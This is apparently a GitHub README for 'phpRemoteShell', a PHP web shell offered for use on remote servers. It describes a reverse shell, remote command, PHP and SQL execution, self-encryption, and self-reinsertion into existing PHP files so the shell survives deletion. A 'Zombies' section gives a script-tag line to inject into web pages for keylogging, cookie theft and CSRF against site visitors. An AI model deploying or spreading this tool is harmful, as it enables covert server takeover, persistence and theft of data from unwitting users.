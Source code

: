 # phpRemoteShell

PHP Remote Shell is a swiss knife to explore servers through the Web. It contains a PHP reverse shell, a full-featured file browser, the ability to execute shell commands or PHP/SQL/LDAP code, crontab management, and « zombies » management. It can also host itself into existing files and auto-deploy during their execution. In case it has been previously encrypted, it is able to self-decrypt on the fly.

It has been designed to be robust and run with just about all POSIX servers and decent PHP versions. It may look a little rustic sometimes, but it should work everywhere.

PRS will be as quiet as possible, using only POST requests, displaying images using inline tags, keeping session data in its own file instead of cookie where possible, and so on.

## Requirement

You need a POSIX machine with PHP CLI on local, and a POSIX server with a PHP web service up on remote.

## Installation

Basically, you just have to put `prs.php` somewhere on the Web and access it with a POST request (GET requests will display a HTTP 404 error).

The simplest way to request PRS URL once uploaded is to open `launcher.html` with a web browser and fill the form.

You can use PRS _as is_ or you can encrypt it before uploading it on the remote host. Encryption is a guaranty for you that nobody will read the source code neither your authentication parameters if any. Knowing this, you can add what you want in it, your secrets will be well protected, even on remote :-)

To encrypt the script, go to `encryption/` and execute `./crypt yourpasswd`. The final encrypted `prs.php` file will be created in the same directory. This is the file to upload on remote host.

The `launcher.html` file allow you to specify your encryption password before requesting the PRS page.

To force PRS to ask for authentication, edit the script and fill the `Authentication` section constants.

To allow direct download of PRS file, just pass it `prsds=` as URL parameter :

```
http://remote-server/prs.php?prsds=
```

_Note that this will not work if you previously defined `CHECK_AUTH` or if you have encrypted PRS file_.

The original script name of PRS is `prs.php` but you can rename it as you want !

## Usage

### Edit

Allow you to open the `Profiles management` popup to save sessions and retrieve them later.

### Remote information

Displays the result of some common tools, plus the output of the `phpinfo()` function if available.

### Shell

#### Reverse shell

If the remote PHP allows it, let you choose a remote IP and port on which listening with a full PHP reverse shell.

It is just a basic shell, which means that sometimes it will not work and that the connection may be cut of or looped at any time. Some commands will be rewritten (like `ping` or `top`), others will be emulated (like `clear`). It is likely that in dying (when you grab the `shutdown` command from your client) it causes a zombie process.

Use `netcat` or any other client on your local machine to execute bash commands on the remote host.

```bash
you@local~$ nc 192.168.3.5 4000
PRS reverse shell 0.12.1
'quit' to quit, 'shutdown' to kill, 'help' for this help
www-data@192.168.3.5 /var/wwww$
```

#### Command execution

Sometime, reverse shell is not possible. This section allows you to execute bash commands and see their results directly from the PRS web page.

### PHP code

With this feature, you can write PHP code, execute it on the remote host and see the result.

### File browser

PRS file browser allows you a lot of things. You can create/edit/delete files, view symlinks and so on. It looks a lot like the output of the `ls` command, with some improvements.

#### Host me in

This feature of the file browser bottom menu allows you to « host » PRS on another PHP script. If someone ever erases it, it would be automatically recreated by calling this page.

### Crontab

Where possible, it allows you to edit, save or even remove the crontab of the current web user.

### Zombies

_This feature will not work if PRS file has been previously encrypted._ Use it only for fun and non-profit ;-)

You can have fun spying remote user's keyboard, injecting code, stealing cookies and so on. You can also web ping hosts on user's private network before launching CSRF attack for example. But, once again : it is instable, not stealth...

To create a zombie, inject the following HTML code in a web page :
```html
<script src="http://remote-server/prs.php?z=js"></script>
```
Then go to the PRS `Zombies` menu and wait until it appears on the list.

### SQL / LDAP

This menu allows you to access remote SQL or LDAP database assuming you know their access settings. For now it can manage MySQL (`mysql`, `mysqli`, `pdo_mysql`), PostgreSQL (`pgsql`, `pdo_pgsql`) and LDAP. It offers some basic macros, but most of the work will have to be done in SQL.

## License
GPL
